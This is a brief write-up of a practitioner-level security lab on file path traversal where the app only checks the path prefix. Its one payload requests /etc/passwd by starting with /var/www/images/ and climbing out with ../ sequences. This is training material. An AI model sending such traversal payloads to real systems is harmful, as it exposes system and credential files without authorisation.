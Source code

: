 Title: File path traversal, validation of start of path
Level: Practitioner
Desc:  This lab contains a path traversal vulnerability in the display of product images.
The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.
To solve the lab, retrieve the contents of the /etc/passwd file. 

Startup request:
![image](https://github.com/user-attachments/assets/8b7b1c75-ea3b-40d0-8b43-f8dbf4a21b95)

Easy one!
payload: `/image?filename=/var/www/images/../../../etc/passwd`
![image](https://github.com/user-attachments/assets/aced28c9-ad20-40bc-a877-ebdc6201fa71)



